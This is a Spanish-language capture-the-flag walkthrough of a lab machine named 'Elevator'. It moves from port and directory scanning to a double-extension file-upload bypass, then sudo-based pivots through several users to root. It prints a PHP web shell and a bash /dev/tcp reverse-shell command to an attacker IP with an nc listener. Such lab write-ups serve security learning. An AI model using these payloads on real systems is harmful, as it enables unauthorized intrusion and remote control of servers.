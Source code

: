 # Máquina Elevator

## Verificación de Conectividad

Primero, verificamos la conectividad con la máquina utilizando **ping**:

![Ping a la máquina objetivo](https://github.com/user-attachments/assets/ccf1913f-1090-4440-b19c-99c02fa464ea)

## Reconocimiento de Puertos con NMAP

Iniciamos la fase de reconocimiento de los puertos de dicha máquina con **NMAP**:
```bash
nmap -p- -sT -sV -A $IP -oN elevator
```
![image](https://github.com/user-attachments/assets/71cb52df-a563-4f30-b629-338de6f946b0)

Al parecer, solamente tenemos el puerto 80 habilitado. Vamos a proceder a analizar dicha web.

Al parecer, es una simple web que, al presionar el botón **¡Abre el Ascensor!**, muestra una animación y un mensaje que aparece en la pantalla.

![image](https://github.com/user-attachments/assets/5a24029b-c718-4aef-bab5-07fef1ef97aa)
![image](https://github.com/user-attachments/assets/301493da-5523-4f1d-b624-edffdd161fc0)

Siguiendo con la etapa de reconocimiento, vamos a usar **Gobuster** para el reconocimiento de directorios de dicha web.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -b 403,404 -x php,txt,php.bak,bak,tar
```

![image](https://github.com/user-attachments/assets/848edb40-b853-488c-815a-723877351ebd)

También procedemos a realizar el reconocimiento de directorios con **Feroxbuster**.
```bash
feroxbuster -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -d 10 -t 200 -x php,txt,html,php.bak,bak,tar --status-codes 200
```

![image](https://github.com/user-attachments/assets/1009cbe7-526c-4e7c-a697-c7425620a0e8)

Con **Feroxbuster** encontramos 2 ficheros con extensión **PHP** y **HTML**, los cuales vamos a analizar para proceder a su explotación.

En la ruta `http://172.17.0.2/themes/upload.php` encontramos un fichero que la web está interpretando, pero no visualizamos nada.

![image](https://github.com/user-attachments/assets/3be38251-eb36-4699-893f-29828ac0bb3d)

En la siguiente ruta `http://172.17.0.2/themes/archivo.html` encontramos un apartado donde podemos subir imágenes con extensión JPG.

![image](https://github.com/user-attachments/assets/cf5347b1-1321-4ed2-9cb3-c3a0d15fe563)

Vamos a proceder primero a crear un fichero con la extensión `.php`, por si la web permite subir dicho fichero. Si es así, podemos aprovechar esta vulnerabilidad para ganar acceso a la máquina.
```php
<?php``
    system($_GET['cmd'])
?>
```

![image](https://github.com/user-attachments/assets/57d54f62-7969-4ec9-a289-9e174bace3c1)``

Procedemos a subir el fichero a la web.

![image](https://github.com/user-attachments/assets/07a53adf-c045-479f-b990-8d25c1feaf38)

Pero al subir nuestro fichero **PHP**, la web no lo permite; solo nos permite subir ficheros con extensión **JPG**.

![image](https://github.com/user-attachments/assets/efa7fbce-9d34-4d45-805c-bf736f166876)

Vamos a realizar el método de doble **"double extension attack"**. Este ataque aprovecha las configuraciones de seguridad de los servidores web que pueden estar configurados para permitir la carga de archivos con ciertas extensiones, como `.jpg`, pero no de otras, como `.php`. 

En este ataque, renombramos el archivo para que tenga una extensión doble, como `reverShell.php.jpg`, lo que engaña al servidor para que lo permita cargar, mientras que el archivo PHP podría ejecutarse al acceder a él.

![image](https://github.com/user-attachments/assets/f455ca75-1e51-4e66-84d9-d5fb934da5da)

Nuevamente probaremos subir el fichero con la extensión doble a la web y verificaremos si nos lo permite.

![image](https://github.com/user-attachments/assets/bbe9063c-8a45-4eea-9acf-80dc2e27bfe2)

**¡Bingo!** Logramos subir nuestro archivo y la web nos proporciona la ruta donde se encuentra ubicado. Procederemos a visualizarlo para comprobar si la web lo interpreta o no.

![image](https://github.com/user-attachments/assets/2221b44c-ae07-442d-a5af-62120f4f741d)

La web interpreta correctamente el archivo malicioso subido por nosotros.

![image](https://github.com/user-attachments/assets/46ae684c-4649-40b1-a442-b88936f312f6)


Al ejecutar el comando `id`, verificamos la respuesta del comando.

![image](https://github.com/user-attachments/assets/11ca7995-ad4f-42fc-89ce-146fdcb28464)

Ahora vamos a proceder a hacernos una revershell de la siguiente forma

[ * ] Web victima:
`172.17.0.2/themes/uploads/6764f820a0d32.jpg/?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.19/443 0>%261"`

![image](https://github.com/user-attachments/assets/5f53a80a-2959-4c82-85b3-b8968da9222d)

[ * ]  Shell Atacante
```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/c7b2bfde-9d5f-438a-8a1b-ff17d1c0eda6)

¡Bummmmm! Estamos dentro de la máquina, pero como el usuario `www-data`. 

![image](https://github.com/user-attachments/assets/5649a008-e84e-479d-b29a-b1461df881b0)

Vamos a verificar los permisos SUID para determinar si es posible elevar privilegios a través de este método. Sin embargo, lamentablemente no podremos aprovechar esta vía.

![image](https://github.com/user-attachments/assets/af283685-a5ed-47ce-a493-be56dcc09527)

Procederemos a realizar el tratamiento de la TTY para establecer una sesión interactiva más estable.

![image](https://github.com/user-attachments/assets/67836fc2-27fc-41ce-b39a-91fd61e2365f)

![image](https://github.com/user-attachments/assets/bfe361cb-be55-47f8-a52a-32f94666d19a)


Vamos a listar los comandos que el usuario puede ejecutar con privilegios de `root` usando `sudo -l`.

![image](https://github.com/user-attachments/assets/867899f6-d535-4786-ab47-6233e3215063)

En este caso, no podemos migrar como root, pero sí podemos migrar como el usuario **daphne**, con el cual podemos usar el comando `env`.

Con **GTFOBins**, vamos a buscar el binario `env` y listar los comandos que el usuario puede ejecutar como **daphne**

![image](https://github.com/user-attachments/assets/eaa5afdc-5d69-43ec-a33d-1172ecb8360c)

![image](https://github.com/user-attachments/assets/3f7edfb7-9e27-45c5-9f83-775e4e412702)

Ya estando como el usuario **daphne**, procederemos a listar nuevamente los comandos disponibles para verificar si podemos migrar a otro usuario o escalar privilegios.

Al listar nuevamente, verificamos que podemos migrar al usuario **vilma** usando el comando `ash`.

![image](https://github.com/user-attachments/assets/e61ea684-7c5c-412c-b1b0-74527e308a31)

En **GTFOBins** nos indica cómo migrar, lo cual haremos con una pequeña modificación utilizando el parámetro `-u`, donde indicamos el nombre del usuario al cual vamos a migrar (en este caso, **vilma**).

![image](https://github.com/user-attachments/assets/97e3dc67-8d1e-4751-ac52-5fd09d0e5d6c)

![image](https://github.com/user-attachments/assets/86c4abcf-e0ef-498e-bb60-2caf8f917e79)

Al parecer, la temática es de esta forma. Vamos a listar nuevamente los comandos o posibles configuraciones disponibles para verificar si podemos continuar con la migración

En este caso, podemos migrar al usuario **shaggy** usando el binario de **ruby**. Nos ayudaremos de **GTFOBins**.

![image](https://github.com/user-attachments/assets/fed2f6dc-109c-4696-b67d-9c44c968db5a)

![image](https://github.com/user-attachments/assets/2338ad11-cabf-48d2-a940-cc59dc764925)

Ganamos acceso al usuario shaggy.

![image](https://github.com/user-attachments/assets/694c563b-20fa-402f-9e29-4f4102a2f32b)

Nuevamente, tenemos el binario **lua** para migrar como el usuario **fred**.

![image](https://github.com/user-attachments/assets/c6ba585c-5438-4139-8c4d-8c2fb04727e2)

![image](https://github.com/user-attachments/assets/775abda8-d31e-4632-97b4-4f0221524ce3)

Ahora logramos migrar al usuario **fred**.

![image](https://github.com/user-attachments/assets/b1ebe188-a860-4b66-a728-ceef6b5e84f4)

Para migrar al usuario **scooby**, tenemos que usar el binario **gcc**.

![image](https://github.com/user-attachments/assets/38523977-bfc3-4bf6-bdd8-fb7927a6e0db)

![image](https://github.com/user-attachments/assets/c45a7d93-1344-4aec-849a-7b5e395c48cc)

Logramos migrar al usuario **scooby**. Ahora, vamos a proceder nuevamente a listar.

![image](https://github.com/user-attachments/assets/47b5e7d3-9ef7-4906-95ed-2f59ec0a8a52)

Finalmente, podemos migrar al usuario **root** utilizando el binario **sudo**.

![image](https://github.com/user-attachments/assets/174b93d3-6efb-4009-b5d9-66c7e1dc1372)

![image](https://github.com/user-attachments/assets/1ed27c1e-8aa8-493d-98a3-14880958df35)

# $BLING $BLING SOMOS ~~ROOT~~

![image](https://github.com/user-attachments/assets/027d9ae5-281f-47f4-a943-110c6c318a79)
